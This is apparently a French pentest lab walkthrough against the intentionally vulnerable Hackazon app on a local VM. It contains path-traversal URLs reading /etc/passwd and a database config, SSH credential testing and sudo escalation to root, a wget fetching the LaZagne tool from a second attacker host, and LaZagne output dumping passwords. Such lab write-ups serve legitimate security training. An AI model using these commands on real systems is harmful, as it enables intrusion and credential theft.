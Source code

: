 <ins>1.Énumération</ins>

**<span style="color: #dddddd;">👁️</span> Massap**

```
┌─[parrot@parrot]─[~/Documents]
└──╼ $sudo sh massap.sh

   *                                
 (  `                               
 )\))(      )             )         
((_)()\  ( /(  (   (   ( /(  `  )   
(_()((_) )(_)) )\  )\  )(_)) /(/(   
|  \/  |((_)_ ((_)((_)((_)_ ((_)_\  
| |\/| |/ _` |(_-<(_-</ _` || '_ \) 
|_|  |_|\__,_|/__//__/\__,_|| .__/  
                            |_|     

by M0rPH3U53
      
[i] Scan IP: 192.168.56.75
[i] Rate: 1000
 
[+] Scan Masscan 192.168.56.75...100%
[+] Scan Nmap 192.168.56.75...100%
 
==========================================================
|                         Rapports                       |
==========================================================
| Nmap:/home/parrot/Massap/192.168.56.75-tcp.html        |
==========================================================
```

&nbsp;

<span style="color: #dddddd;">⚡</span> **ZAP**

Rapport après fin de scan

![Capture du 2025-02-09 18-32-13.png](file:///home/kali/.config/joplin-desktop/resources/bb45b742d0c843f7905ba152083c7b2c.png)

&nbsp;

Traverser de chemin

[http://192.168.56.75/account/documents?page=…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F /etc/passwd](http://192.168.56.75/account/documents?page=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F%20/etc/passwd)

![path_traversal.png](file:///home/kali/.config/joplin-desktop/resources/5419d791130e4b02816a6320624d7b1b.png)

&nbsp;

Allons voir le fichier `db.php`

[http://192.168.56.75/account/documents?page=…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F /var/www/hackazon/assets/config/db.php](http://192.168.56.75/account/documents?page=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F%20/var/www/hackazon/assets/config/db.php)

![injection_commande.png](file:///home/kali/.config/joplin-desktop/resources/0aa9639d9c7745499aff28ca80bff0f9.png)

&nbsp;

**<span style="color: #dddddd;">🖥️</span> NetExec**

Test en `SSH` des identifiant trouver

```
┌─[parrot@parrot]─[~]
└──╼ $nxc ssh 192.168.56.75 -u hackazon -p hackazon --sudo-check
SSH         192.168.56.75   22     192.168.56.75    [*] SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.10
SSH         192.168.56.75   22     192.168.56.75    [+] hackazon:hackazon (Pwn3d!) Linux - Shell access!
```

&nbsp;

L’utilisateur `hackazon` fais parti du groupe `sudo`

```
hackazon@ubuntu:~$ sudo -s
[sudo] password for hackazon: 
root@ubuntu:~# 
```

&nbsp;

****<span style="color: #dddddd;">👾</span>** LaZagne**

Téléchargement du fichier zip

```
root@ubuntu:~# wget 192.168.56.104:8080/LaZagne-2.4.6.zip
--2025-02-09 09:06:38--  http://192.168.56.104:8080/LaZagne-2.4.6.zip
Connecting to 192.168.56.104:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 705000 (688K) [application/zip]
Saving to: 'LaZagne-2.4.6.zip'

LaZagne-2.4.6.zip                               100%[=====================================================================================================>] 688.48K  --.-KB/s    in 0.008s  

2025-02-09 09:06:38 (79.1 MB/s) - 'LaZagne-2.4.6.zip' saved [705000/705000]
```

&nbsp;

Unzip

```
root@ubuntu:~# unzip LaZagne-2.4.6.zip
Archive:  LaZagne-2.4.6.zip
3ed06c785c417a77c2bc9a09987060425249036d
   creating: LaZagne-2.4.6/
```

&nbsp;

Exécution

```
root@ubuntu:~/LaZagne-2.4.6/Linux# python3 laZagne.py all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Shadow passwords -----------------

[+] Password found !!!
Login: hackazon
Password: hackazon

------------------- Mimipy passwords -----------------

[+] Password found !!!
Process: /usr/sbin/sshd
Login: hackazon
Password: hackazon


[+] 2 passwords have been found.
For more information launch it again with the -v option

elapsed time = 0.5735633373260498
```

&nbsp;

Cred trouver

| Users | Password |
| --- | --- |
| hackazon | hackazon |
